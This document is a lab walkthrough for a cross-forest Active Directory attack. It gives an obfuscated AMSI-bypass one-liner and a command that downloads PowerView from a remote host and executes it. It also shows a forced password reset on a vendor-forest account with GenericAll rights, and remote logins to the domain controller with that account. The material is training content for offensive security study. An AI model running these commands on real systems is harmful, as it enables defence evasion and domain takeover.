

# Hands-on 27: Cross Forest Attacks - Foreign Security Principals & ACLs

- [Hands-on 27: Cross Forest Attacks - Foreign Security Principals & ACLs](#hands-on-27-cross-forest-attacks---foreign-security-principals--acls)
  - [Tasks](#tasks)
  - [Execute cross forest attack on dbvendor.local by abusing ACLs](#execute-cross-forest-attack-on-dbvendorlocal-by-abusing-acls)
  - [Enumerate FSPs for db.local and escalate privileges to DA by compromising the FSPs](#enumerate-fsps-for-dblocal-and-escalate-privileges-to-da-by-compromising-the-fsps)

---

## Tasks

Using the reverse shell on `db.local`:

- Execute cross forest attack on `dbvendor.local` by abusing ACLs
- Enumerate FSPs for `db.local` and escalate privileges to DA by compromising the FSPs.

<br/>

---

## Execute cross forest attack on dbvendor.local by abusing ACLs

Get a reverse shell from `db-sqlsrv` with reference to [Hands-on 26](l26-XForestMSSQL.md).

Bypass AMSI on `db-sqlsrv`:

```
[Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType('System.Management.Automation.'+$([system.NEt.weBUtILITY]::HTmldecode('&#65;&#109;&#115;&#105;'))+'Utils').GetField(''+$([chAR](5723/59)+[chAR]([BYTE]0x6D)+[CHAR]([BytE]0x73)+[CHAr]([ByTE]0x69))+'Context',[Reflection.BindingFlags]$([cHaR]([BYTE]0x4E)+[chAr]([ByTe]0x6F)+[char](1+109)+[ChAR]([bYtE]0x50)+[chaR](117)+[CHar]([bYte]0x62)+[ChAr](108)+[cHar]([ByTE]0x69)+[cHaR]([BYtE]0x63)+[ChAR](44)+[cHAR](53+30)+[chAR]([ByTE]0x74)+[CHAR](13+84)+[CHar]([byte]0x74)+[cHaR](117-12)+[cHAr]([BYtE]0x63))).GetValue($null),0x567EB97B);
```

<br/>

Import `PowerView.ps1` on `db-sqlsrv`:

```
iex ((New-Object Net.Webclient).DownloadString("http://192.168.100.64/PowerView.ps1"))
```

  

<br/>

Check the trust of `db.local`:

```
Get-Forest Trust
```

  

- The current domain `db.local` has 2-way trust to `dbvendor.local`

<br/>

Use `Find-InterestingDomainAcl` to check interesting ACLs on `dbvendor.local`:

```
Find-InterestingDomainAcl -Domain dbvendor.local
```

Result:

```
PS C:\Windows\system32> Find-InterestingDomainAcl -Domain dbvendor.local

<snip>

ObjectDN                : CN=db59svc,CN=Users,DC=dbvendor,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-2781415573-3701854478-2406986946-1105
IdentityReferenceName   : srvdba
IdentityReferenceDomain : db.local
IdentityReferenceDN     : CN=srvdba,CN=Users,DC=db,DC=local
IdentityReferenceClass  : user

ObjectDN                : CN=db60svc,CN=Users,DC=dbvendor,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-2781415573-3701854478-2406986946-1105
IdentityReferenceName   : srvdba
IdentityReferenceDomain : db.local
IdentityReferenceDN     : CN=srvdba,CN=Users,DC=db,DC=local
IdentityReferenceClass  : user

ObjectDN                : CN=db61svc,CN=Users,DC=dbvendor,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-2781415573-3701854478-2406986946-1105
IdentityReferenceName   : srvdba
IdentityReferenceDomain : db.local
IdentityReferenceDN     : CN=srvdba,CN=Users,DC=db,DC=local
IdentityReferenceClass  : user

ObjectDN                : CN=db62svc,CN=Users,DC=dbvendor,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-2781415573-3701854478-2406986946-1105
IdentityReferenceName   : srvdba
IdentityReferenceDomain : db.local
IdentityReferenceDN     : CN=srvdba,CN=Users,DC=db,DC=local
IdentityReferenceClass  : user

ObjectDN                : CN=db63svc,CN=Users,DC=dbvendor,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-2781415573-3701854478-2406986946-1105
IdentityReferenceName   : srvdba
IdentityReferenceDomain : db.local
IdentityReferenceDN     : CN=srvdba,CN=Users,DC=db,DC=local
IdentityReferenceClass  : user

ObjectDN                : CN=db64svc,CN=Users,DC=dbvendor,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-2781415573-3701854478-2406986946-1105
IdentityReferenceName   : srvdba
IdentityReferenceDomain : db.local
IdentityReferenceDN     : CN=srvdba,CN=Users,DC=db,DC=local
IdentityReferenceClass  : user

ObjectDN                : CN=db65svc,CN=Users,DC=dbvendor,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-2781415573-3701854478-2406986946-1105
IdentityReferenceName   : srvdba
IdentityReferenceDomain : db.local
IdentityReferenceDN     : CN=srvdba,CN=Users,DC=db,DC=local
IdentityReferenceClass  : user

ObjectDN                : CN=db66svc,CN=Users,DC=dbvendor,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-2781415573-3701854478-2406986946-1105
IdentityReferenceName   : srvdba
IdentityReferenceDomain : db.local
IdentityReferenceDN     : CN=srvdba,CN=Users,DC=db,DC=local
IdentityReferenceClass  : user

ObjectDN                : CN=db67svc,CN=Users,DC=dbvendor,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-2781415573-3701854478-2406986946-1105
IdentityReferenceName   : srvdba
IdentityReferenceDomain : db.local
IdentityReferenceDN     : CN=srvdba,CN=Users,DC=db,DC=local
IdentityReferenceClass  : user

ObjectDN                : CN=db68svc,CN=Users,DC=dbvendor,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-2781415573-3701854478-2406986946-1105
IdentityReferenceName   : srvdba
IdentityReferenceDomain : db.local
IdentityReferenceDN     : CN=srvdba,CN=Users,DC=db,DC=local
IdentityReferenceClass  : user

ObjectDN                : CN=db69svc,CN=Users,DC=dbvendor,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-2781415573-3701854478-2406986946-1105
IdentityReferenceName   : srvdba
IdentityReferenceDomain : db.local
IdentityReferenceDN     : CN=srvdba,CN=Users,DC=db,DC=local
IdentityReferenceClass  : user

ObjectDN                : CN=db70svc,CN=Users,DC=dbvendor,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-2781415573-3701854478-2406986946-1105
IdentityReferenceName   : srvdba
IdentityReferenceDomain : db.local
IdentityReferenceDN     : CN=srvdba,CN=Users,DC=db,DC=local
IdentityReferenceClass  : user

<snip>
```

- The current user `srvdba` has `GenericAll` privilege on the domain object `dbvendor\db64svc`

<br/>

In so, we can change the password of the user `dbvendor\db64svc`:

```
Set-DomainUserPassword -Identity db64svc -AccountPassword (ConvertTo-SecureString 'P@ssw0rd' -AsPlainText -Force) -Domain dbvendor.local -Verbose
```

  


---

## Enumerate FSPs for db.local and escalate privileges to DA by compromising the FSPs

To enumerate FSP:

```
Find-ForeignGroup -Verbose 
```

Result:

```
PS C:\Windows\system32> Find-ForeignGroup -Verbose


GroupDomain             : db.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=db,DC=local
MemberDomain            : db.local
MemberName              : S-1-5-21-569087967-1859921580-1949641513-4612
MemberDistinguishedName : CN=S-1-5-21-569087967-1859921580-1949641513-4612,CN=ForeignSecurityPrincipals,DC=db,DC=local

GroupDomain             : db.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=db,DC=local
MemberDomain            : db.local
MemberName              : S-1-5-21-569087967-1859921580-1949641513-4611
MemberDistinguishedName : CN=S-1-5-21-569087967-1859921580-1949641513-4611,CN=ForeignSecurityPrincipals,DC=db,DC=local

GroupDomain             : db.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=db,DC=local
MemberDomain            : db.local
MemberName              : S-1-5-21-569087967-1859921580-1949641513-4610
MemberDistinguishedName : CN=S-1-5-21-569087967-1859921580-1949641513-4610,CN=ForeignSecurityPrincipals,DC=db,DC=local

GroupDomain             : db.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=db,DC=local
MemberDomain            : db.local
MemberName              : S-1-5-21-569087967-1859921580-1949641513-4609
MemberDistinguishedName : CN=S-1-5-21-569087967-1859921580-1949641513-4609,CN=ForeignSecurityPrincipals,DC=db,DC=local

GroupDomain             : db.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=db,DC=local
MemberDomain            : db.local
MemberName              : S-1-5-21-569087967-1859921580-1949641513-4608
MemberDistinguishedName : CN=S-1-5-21-569087967-1859921580-1949641513-4608,CN=ForeignSecurityPrincipals,DC=db,DC=local

GroupDomain             : db.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=db,DC=local
MemberDomain            : db.local
MemberName              : S-1-5-21-569087967-1859921580-1949641513-4607
MemberDistinguishedName : CN=S-1-5-21-569087967-1859921580-1949641513-4607,CN=ForeignSecurityPrincipals,DC=db,DC=local

GroupDomain             : db.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=db,DC=local
MemberDomain            : db.local
MemberName              : S-1-5-21-569087967-1859921580-1949641513-4606
MemberDistinguishedName : CN=S-1-5-21-569087967-1859921580-1949641513-4606,CN=ForeignSecurityPrincipals,DC=db,DC=local

GroupDomain             : db.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=db,DC=local
MemberDomain            : db.local
MemberName              : S-1-5-21-569087967-1859921580-1949641513-4605
MemberDistinguishedName : CN=S-1-5-21-569087967-1859921580-1949641513-4605,CN=ForeignSecurityPrincipals,DC=db,DC=local

GroupDomain             : db.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=db,DC=local
MemberDomain            : db.local
MemberName              : S-1-5-21-569087967-1859921580-1949641513-4604
MemberDistinguishedName : CN=S-1-5-21-569087967-1859921580-1949641513-4604,CN=ForeignSecurityPrincipals,DC=db,DC=local

GroupDomain             : db.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=db,DC=local
MemberDomain            : db.local
MemberName              : S-1-5-21-569087967-1859921580-1949641513-4603
MemberDistinguishedName : CN=S-1-5-21-569087967-1859921580-1949641513-4603,CN=ForeignSecurityPrincipals,DC=db,DC=local

```

<br/>

Check the Domain Users on `dbvendor.local`:

```
Get-NetUser -Domain dbvendor.local | Select name, objectsid
```

  

- Note `S-1-5-21-569087967-1859921580-1949641513-4606` is `db64svc`
- Related FSP:

```
GroupDomain             : db.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=db,DC=local
MemberDomain            : db.local
MemberName              : S-1-5-21-569087967-1859921580-1949641513-4606
MemberDistinguishedName : CN=S-1-5-21-569087967-1859921580-1949641513-4606,CN=ForeignSecurityPrincipals,DC=db,DC=local
```

This means `dbvendor\db64svc` is in the `administrators` group (Domain Admins) in `db.local`.

<br/>

Then we can access `db-dc` since we have the Domain Admins credential of `dbvendor\db64svc:P@ssw0rd`:

```
winrs -r:db-dc.db.local -u:dbvendor\db64svc -p:P@ssw0rd hostname

winrs -r:db-dc.db.local -u:dbvendor\db64svc -p:P@ssw0rd whoami
```

  

(Somehow it stucks when running `whoami`)

PS Remoting:

```
$passwd = ConvertTo-SecureString 'P@ssw0rd' -AsPlainText -Force

$creds = New-Object System.Management.Automation.PSCredential ("dbvendor\db64svc", $passwd)

$dbdc = New-PSSession -Computername db-dc.db.local -Credential $creds

Invoke-Command -scriptblock{whoami;hostname} -Session $dbdc
```

  


<br/>


---